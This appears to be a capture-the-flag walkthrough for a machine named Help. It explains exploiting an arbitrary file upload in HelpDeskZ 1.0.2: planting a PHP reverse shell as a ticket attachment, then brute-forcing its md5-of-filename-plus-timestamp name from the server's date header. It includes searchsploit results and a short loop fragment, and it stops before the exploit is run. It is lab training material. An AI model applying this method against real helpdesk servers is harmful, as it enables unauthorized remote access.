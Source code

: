 ```
```
So, now we have the version: 1.0.2  
With the discovered information, let's search for publicly available exploits.  
```
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                                                                                                                                                                    | php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download                                                                                                                             | php/webapps/41200.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

## User
### Method 1 - Arbitrary File Upload php/webapps/40300.py
Here we just need to follow the author steps to upload a shell.  
We can craft our payload with a php reverse shell, for doing so, we can use the following file:
```
/usr/share/laudanum/php/php-reverse-shell.php
```
and edit the ip address and port properly.  
now we can upload new ticket, fill all the required information and as an attachment we can provide the php shell.  
Once the file is uploaded we can see an error message 'File Not Allowed', but in the back-end, the file gets uploaded anyway.  
This is probably due to the fact that the developer thought that since the file gets renamed with the below vuncion, there will be no harm in uploading php files.
```
$filename = md5($_FILES['attachment']['name'].time())...$ext;
```
To take advantage of this, the exploit simply uses the same hash function to recreate the digest.  
The only problem here is that we need to get the exact server time/format.  
Retrive the format is simple, we can just run the same function on php.
```
[root@kali Help ]$ php -a                                                                                                           
Interactive mode enabled
php > echo(time());
1641899554
```
As we can see the format is epoch time.
The Unix epoch (or Unix time or POSIX time or Unix timestamp) is the number of seconds that have elapsed since January 1, 1970 (midnight UTC/GMT), not counting leap seconds.
Now we need to get the server time. To gather such information, we can use the 'date' header in the http response.  
Once we have all this information, we can recreate the digest.  
Since the upload time is obviously minor than the current time, we can execute a for loop that tries to bruteforce the correct upload time.
```
for x in range(0, 3000):
    plaintext = fileName + str(currentTime - x)
```
Now that we have a clear vision of how the exploit works we can run it.  